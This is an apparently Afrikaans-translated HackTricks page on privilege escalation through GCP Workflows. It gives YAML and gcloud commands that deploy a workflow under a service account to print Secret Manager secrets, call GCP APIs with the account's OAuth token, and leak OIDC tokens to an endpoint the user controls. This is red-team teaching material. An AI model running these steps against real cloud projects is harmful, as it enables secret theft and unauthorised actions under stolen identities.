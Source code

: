 # GCP - Workflows Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basiese Inligting:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soos ek weet, is dit nie moontlik om 'n shell te kry met toegang tot die metadata-eindpunt wat die SA-akkrediteer van die SA wat aan 'n Workflow aangeheg is, bevat nie. Dit is egter moontlik om die toestemmings van die SA te misbruik deur die aksies wat binne die Workflow uitgevoer moet word, by te voeg.

Dit is moontlik om die dokumentasie van die connectors te vind. Byvoorbeeld, dit is die [**bladsy van die Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In die sybalk is dit moontlik om verskeie ander connectors te vind.

En hier kan jy 'n voorbeeld van 'n connector vind wat 'n geheim druk:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Opdateer vanaf die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
As jy 'n fout soos `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` kry, **wag net 'n minuut en probeer weer**.

As jy nie webtoegang het nie, is dit moontlik om 'n Workflow te aktiveer en die uitvoering te sien met: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Jy kan ook die uitvoer van vorige uitvoerings nagaan om sensitiewe inligting te soek
{% endhint %}

Let daarop dat selfs al kry jy 'n fout soos `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` omdat jy nie daardie toestemming het nie, is die werksvloei gegenereer.

### Lek OIDC-token (en OAuth?)

Volgens [**die dokumentasie**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) is dit moontlik om werksvloei-stappe te gebruik wat 'n HTTP-versoek sal stuur met die OAuth of OIDC-token. Maar, net soos in die geval van [Cloud Scheduler](gcp-cloudscheduler-privesc.md), moet die HTTP-versoek met die Oauth-token na die gasheer `.googleapis.com` wees.

{% hint style="danger" %}
Daarom is dit **moontlik om die OIDC-token te lek deur 'n HTTP-eindpunt aan te dui** wat deur die gebruiker beheer word, maar om die **OAuth**-token te lek, sal jy **'n omseiling** vir daardie beskerming benodig. Tog is jy steeds in staat om **enige GCP-api te kontak om aksies namens die SA uit te voer** deur middel van ofwel verbindings of HTTP-versoeke met die OAuth-token.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Met hierdie toestemming in plaas van `workflows.workflows.create` is dit moontlik om 'n reeds bestaande workflow op te dateer en dieselfde aanvalle uit te voer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
